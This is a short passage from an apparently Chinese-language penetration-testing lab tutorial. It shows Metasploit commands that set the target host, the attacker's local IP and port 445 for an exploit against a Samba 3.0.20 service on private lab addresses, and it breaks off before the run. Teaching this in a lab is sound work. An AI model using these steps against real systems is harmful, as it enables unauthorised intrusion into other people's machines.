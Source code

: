 ![此处输入图片的描述](../imgs/wm_48.png)

补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```

![此处输入图片的描述](../imgs/wm_49.png)

设置完成后再次查看配置参数：
